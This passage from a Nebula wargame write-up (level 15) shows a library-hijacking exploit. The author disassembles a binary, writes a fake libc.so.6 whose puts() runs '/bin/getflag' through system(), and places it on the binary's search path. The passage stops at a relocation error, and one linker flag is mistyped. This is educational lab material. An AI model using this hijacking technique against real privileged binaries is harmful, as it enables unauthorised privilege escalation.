 So instead we need to compile a statically linked library and get it to call that library with whatever function it's using.  Object dumping the file, we find our main quite small:

```
level15@nebula:/home/flag15$ objdump -d -M intel flag15 
[....]
08048330 <main>:
 8048330:  55                     push   %ebp
 8048331:  89 e5                  mov    %esp,%ebp
 8048333:  83 e4 f0               and    $0xfffffff0,%esp
 8048336:  83 ec 10               sub    $0x10,%esp
 8048339:  c7 04 24 d0 84 04 08   movl   $0x80484d0,(%esp)
 8048340:  e8 bb ff ff ff         call   8048300 <puts@plt>
 8048345:  c9                     leave  
 8048346:  c3                     ret    
 8048347:  90                     nop
```

The only function it calls is puts, so we need to override that; we also need a target location.  `/var/tmp/flag15/libc.so.6` appears to be the least nested.  Here's the library code:

```
level15@nebula:/home/flag15$ cat /tmp/lib.c
#include <stdio.h>
#include <stdlib.h>

int puts(const char *s){
  system("/bin/getflag > /tmp/flagged");
}

int __libc_start_main(int (*main)(int, char **, char **), 
           int argc, char **argv,
          void (*init)(void),
          void (*fini)(void),
          void (*rtld_fini)(void),
          void (*stack_end))
    { main(argc, argv, NULL);
  return 0;
}
level15@nebula:/home/flag15$ 
```

We just need to compile and statically link this to the library path:

```
level15@nebula:/home/flag15$ gcc -Wall -fPIC -o /tmp/libc.o -c /tmp/lib.c
/tmp/lib.c: In function ‘puts’:
/tmp/lib.c:6:1: warning: control reaches end of non-void function [-Wreturn-type]
level15@nebula:/home/flag15$ gcc -shared -W1,-Bstatic,-soname,libc.so.6 -o /var/tmp/flag15/libc.so.6 /tmp/libc.o -static
level15@nebula:/home/flag15$ ./flag15
./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by ./flag15)
./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
./flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __deregister_frame_info, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```

